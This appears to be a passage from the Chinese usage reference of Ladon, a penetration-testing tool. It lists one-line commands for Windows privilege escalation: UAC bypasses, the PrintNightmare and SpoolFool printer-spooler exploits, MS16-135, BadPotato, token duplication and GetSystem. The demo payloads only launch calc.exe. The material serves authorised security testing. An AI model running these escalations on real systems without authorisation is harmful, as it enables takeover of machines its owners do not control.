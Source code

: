 ##### 108 whoami查看当前用户权限以及特权	
```Bash
Ladon whoami
```

##### 109  6种白名单BypassUAC(8.0后)Win7-Win10  10.8版本移除 仅911保留
用法: Ladon BypassUAC Method Base64Cmd
```Bash
Ladon BypassUAC eventvwr Y21kIC9jIHN0YXJ0IGNhbGMuZXhl
Ladon BypassUAC fodhelper Y21kIC9jIHN0YXJ0IGNhbGMuZXhl
Ladon BypassUAC computerdefaults Y21kIC9jIHN0YXJ0IGNhbGMuZXhl
Ladon BypassUAC sdclt Y21kIC9jIHN0YXJ0IGNhbGMuZXhl
Ladon BypassUAC slui Y21kIC9jIHN0YXJ0IGNhbGMuZXhl
Ladon BypassUAC dikcleanup Y21kIC9jIHN0YXJ0IGNhbGMuZXhlICYmIFJFTQ==
```

##### 110 BypassUac2 绕过UAC执行,支持Win7-Win10 	10.8版本移除 仅911保留
```Bash
Ladon BypassUac2 c:\1.exe
Ladon BypassUac2 c:\1.bat
```

##### 111 PrintNightmare (CVE-2021-1675 | CVE-2021-34527)打印机漏洞提权EXP 
```Bash
Ladon PrintNightmare c:\evil.dll
Ladon CVE-2021-1675 c:\evil.dll
```

##### 112 CVE-2022-21999 SpoolFool打印机漏洞提权EXP 
```Bash
Ladon SpoolFool poc.dll
Ladon CVE-2022-21999 poc.dll
```

##### 113 GetSystem 提权System权限执行CMD	
```Bash
Ladon GetSystem cmd.exe
```

##### 114 复制令牌执行CMD(如system权限降权exploer当前用户)
```Bash
Ladon GetSystem cmd.exe explorer
```

##### 115 Runas 模拟用户执行命令 	
```Bash
Ladon Runas user pass cmd
```

##### 116 MS16135提权至SYSTEM
```Bash
Ladon ms16135 whoami   >=9.2.1版本移除 911保留
```

##### 117 BadPotato服务用户提权至SYSTEM	
```Bash
Ladon BadPotato cmdline
```

